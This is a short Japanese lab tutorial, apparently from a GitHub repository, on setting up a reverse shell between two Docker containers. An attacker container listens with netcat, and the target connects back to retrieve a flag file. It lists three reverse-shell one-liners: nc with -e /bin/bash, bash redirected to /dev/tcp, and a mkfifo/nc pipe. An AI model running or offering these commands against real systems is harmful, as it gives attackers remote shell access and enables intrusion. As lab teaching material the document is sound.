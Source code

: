 ## リバースシェル
- 攻撃側のOSを待ち受けにして、ターゲット側のOSからシェルで接続する

## 内容
- Dockerで２つのコンテナを立ち上げる、攻撃側をParrotとしてターゲット側をhamとする。hamに事前にrootflag.txtを作っておいて、Parrotから見る

## 準備
- ターミナルを２つ立ち上げて、各々にコンテナを立ち上げる
- `docker container run --rm -it --name コンテナ名 --net kali-wordpress kali /bin/bash`

### Parrot側
- 左側のターミナルをParrotとして、ipアドレスを確認する
- Parrot側でシェルを待ち受ける。ポートは444を解放する、ポートが被っていなければ何でもいい
- `nc -nlvp 444`

### ham側
- 右側のターミナルをhamとする
- Parrot側のipアドレスを環境変数に登録する
- flagを作る
- `echo "unko` > /root/flag.txt


## ham側からリバースシェルを仕掛ける。
- sessionが確立したら、対話型シェルにしてflag.txtを見る
- 実践では次の３つのどれか使えるものを使う、ターゲット側にインストールされていないコマンドがあるため
### (1) ncコマンド
- `nc $IP 444 -e /bin/bash`
### (2) bashコマンド
- `bash -i >& /dev/tcp/$IP/444 0>&1`
### (3) mkfifoコマンド
- `rm /tmp/pipe; mkfifo /tmp/pipe; cat /tmp/pipe | /bin/bash -i 2>&1|nc $IP 444 > /tmp/pipe`
